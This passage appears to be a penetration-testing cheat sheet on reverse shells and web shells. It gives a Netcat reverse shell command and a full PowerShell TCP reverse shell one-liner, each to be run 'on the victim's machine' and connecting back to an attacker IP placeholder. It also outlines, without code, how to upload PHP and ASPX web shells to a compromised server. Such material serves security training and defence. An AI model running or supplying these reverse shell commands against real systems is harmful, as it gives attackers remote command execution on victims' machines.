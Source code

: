 ### Netcat

Netcat is a versatile networking utility that can be used to create reverse shells. It is available for both Windows and Linux systems.

To create a reverse shell using Netcat on Windows, follow these steps:

1. Set up a listener on your machine: `nc -lvp <port>`

2. Execute the following command on the victim's machine: `nc <attacker_ip> <port> -e cmd.exe`

### PowerShell

PowerShell is a powerful scripting language that is built into Windows. It can be used to create reverse shells as well.

To create a reverse shell using PowerShell, follow these steps:

1. Set up a listener on your machine: `nc -lvp <port>`

2. Execute the following command on the victim's machine: `powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<attacker_ip>', <port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"`

## Web Shells

Web shells are scripts or programs that are uploaded to a compromised web server. They provide a web-based interface for an attacker to execute commands on the server.

### PHP Shell

PHP shells are one of the most common types of web shells. They are written in PHP and can be uploaded to a web server via various methods, such as file upload vulnerabilities or command injection.

To use a PHP shell, follow these steps:

1. Upload the PHP shell to the target web server.

2. Access the PHP shell through a web browser.

3. Use the provided interface to execute commands on the server.

### ASPX Shell

ASPX shells are web shells written in ASP.NET. They can be uploaded to a web server that supports ASP.NET applications.

To use an ASPX shell, follow these steps:

1. Upload the ASPX shell to the target web server.

2. Access the ASPX shell through a web browser.

3. Use the provided interface to execute commands on the server.

